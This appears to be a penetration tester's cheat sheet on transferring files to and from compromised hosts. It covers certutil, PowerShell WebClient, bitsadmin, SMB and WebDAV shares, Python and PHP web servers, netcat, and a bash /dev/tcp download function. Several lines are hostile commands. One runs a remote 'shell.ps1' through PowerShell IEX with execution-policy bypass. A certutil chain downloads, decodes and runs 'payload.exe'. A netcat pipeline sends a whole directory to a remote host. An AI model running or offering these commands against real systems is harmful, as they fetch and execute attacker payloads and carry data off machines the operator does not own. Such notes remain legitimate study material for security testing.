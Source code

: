 # share files

## Windows

```bash
certutil.exe -urlcache [-split] -f <source> <destn>
PS> wget <source> -OutFile <dest>
PS> Invoke-WebRequest -Uri <source> -Outfile <dest>
powershell -c (New-Object System.Net.WebClient).downloadFile('<source>', '<dest>')
powershell -exec bypass IEX(New-Object Net.WebClient).downloadString('/shell.ps1')
certutil.exe -urlcache -split -f <source> payload.b64 & certutil.exe -decode payload.b64 payload.exe & payload.exe
bitsadmin /transfer job <source> <dest>
wget.vbs https://gist.github.com/sckalath/ec7af6a1786e3de6c309

# SMB Server
smbserver.py [-smb2support] drive .

# on windows to copy (download)
copy \\IP\drive\file
# upload 
copy file \\IP\drive\

# mount smb-share-drive on windows using powershell
PS> New-PSDrive -Name "winDrive" -PSProvider "FileSystem" -Root "\\IP\drive"
Navigating to "winDrive" shows us all files

# upload dir (with all in it)
robocopy dir \\IP\drive\ /E
[OR]
net use Z: \\IP\drive /u:<username> <pass>
copy file Z:\
```

## HTTP Server

Alternative: [https://github.com/sc0tfree/updog](https://github.com/sc0tfree/updog)

```bash
python3 -m http.server 80
python2 -m SimpleHttpSever 80
php -S IP:PORT
wget <IP>:<PORT>/<file> -O <file>
curl <IP>:<PORT>/<file> -o <file>
scp file kashz@IP:/PATH/FILE

# download all files
wget -r <IP>:<PORT>/<DIR>/

# using base64
base64 <executable> > out
base64 -d out > <executable>
```

## NC

```bash
# receiver
nc -l -p <PORT> > out.file
# sender
nc -w 3 <IP> <PORT> < in.file

# receiver
nc -l -p 1234 | uncompress -c | tar xvfp -
# sender
tar cfp - /some/dir | compress -c | nc -w 3 [destination] 1234
```

## webdav

```bash
# pip install wsgidav cheroot
mkdir /tmp/kashz; wsgidav --host=IP --port=80 --root=/tmp/kashz

# windows
net use * http://IP/
```

## Curl function (linux only)

Use when system does not have `wget, curl.`NOTE: works for binary files too. Fails for `https://` with self signed certificates.

```bash
function __curl() {
  read proto server path <<<$(echo ${1//// })
  DOC=/${path// //}
  HOST=${server//:*}
  PORT=${server//*:}
  [[ x"${HOST}" == x"${PORT}" ]] && PORT=80

  exec 3<>/dev/tcp/${HOST}/$PORT
  echo -en "GET ${DOC} HTTP/1.0\r\nHost: ${HOST}\r\n\r\n" >&3
  (while read line; do
   [[ "$line" == $'\r' ]] && break
  done && cat) <&3
  exec 3>&-
}
# usage
__curl http://IP/FILE > out
```
